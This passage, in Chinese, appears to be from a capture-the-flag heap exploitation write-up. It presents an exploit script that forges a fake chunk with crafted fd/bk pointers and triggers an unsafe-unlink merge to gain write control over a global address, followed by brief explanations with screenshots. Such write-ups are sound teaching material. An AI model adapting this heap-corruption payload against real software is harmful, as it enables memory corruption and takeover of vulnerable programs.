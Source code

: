 利用脚本：

```plain
target = 0x404060

add(0,0x428,b'aaaa')
add(1,0x4f0,b'aaaa')
add(2,0x410,b'aaaa')

payload = p64(0) + p64(0x421) + p64(target - 0x18) + p64(target - 0x10)
payload = payload.ljust(0x420,b'\x00')
payload += p64(0x420)

edit(0,payload)
delete(1)

edit(0,b'\x00'*0x18 + p64(target - 0x18) + p64(0x4040c0)+p64(0)*10 + p32(0x1000)*10)
```

首先伪造好chunk，把fd，bk指针修改成我们想要控制的地方

[![](assets/1702521085-be374a2d48edf2271c5a470be4294771.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231205231029-6d8afd6a-9380-1.png)

此时delete(1)就会使 chunk (1) 与 fake\_chunk进行合并

[![](assets/1702521085-d4613798e1a76592cf63d05122feae02.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231205231041-74456c58-9380-1.png)
